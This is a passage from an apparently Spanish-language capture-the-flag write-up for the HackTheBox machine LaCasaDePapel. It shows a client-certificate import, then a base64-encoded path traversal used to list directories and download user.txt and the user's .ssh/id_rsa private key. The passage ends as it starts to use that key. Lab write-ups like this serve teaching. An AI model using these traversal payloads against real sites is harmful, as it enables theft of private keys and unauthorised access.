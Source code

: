    ```bash
    chmod 777 client.p12
    ```


Aqui ya podemos añadir a firefox el certificado firmado. En firefox vamos a `ajustes` y buscamos por `cert`. Damos a `Ver certificado` y en el menu `Sus certificados`
le podemos dar a `importar`. Importamos el `client.p12` y le damos a acceptar. 

Si recargamos la pagina `https://lacasadepapel.htb` y acceptamos el certificado, ya podemos ver que el contenido a cambiado y un private arena es visible.

### Pathtraversal con base64 {-}

Aqui vemos dos Seasons y si le damos a una vemos unos ficheros `.avi` y haciendo hovering bemos que los nombres son en base64. Lo comprobamos con un fichero.

```bash
echo 'U0VBU09OLTEvMDMuYXZp' | base64 -d;echo
#Output
SEASON-1/03.avi
```

En la url vemos que tenemos algo como `https://lacasadepapel.htb/?path=SEASON-1`. Miramos lo que pasa si le damos a `https://lacasadepapel.htb/?path=/etc/passwd` y
salta un error como no existe el path en `/home/berlin/download//etc/passwd` y que usa la funccion scandir para esto. Ya pensamos en un path traversal, pero como es
un scandir solo podemos ir a por directorios.

```bash
https://lacasadepapel.htb/?path=../
```

aqui vemos el user.txt.

```bash
echo -n '../user.txt' | base64
#Output
Li4vdXNlci50eHQ=
```

y si vamos ahora a la url `https://lacasadepapel.htb/file/Li4vdXNlci50eHQ=` vemos que podemos descargar el user.txt. Pero a nosotros nos interessa ganar accesso
al systema.

En la url `https://lacasadepapel.htb/?path=../` vemos que podemos pinchar al directorio `.ssh` y a dentro hay una `id_rsa`. Hacemos lo mismos que con el user.txt

## Vuln exploit & Gaining Access {-}

### SSH {-}

```bash
echo -n '../.ssh/id_rsa' | base64
#Output
Li4vLnNzaC9pZF9yc2E=
```
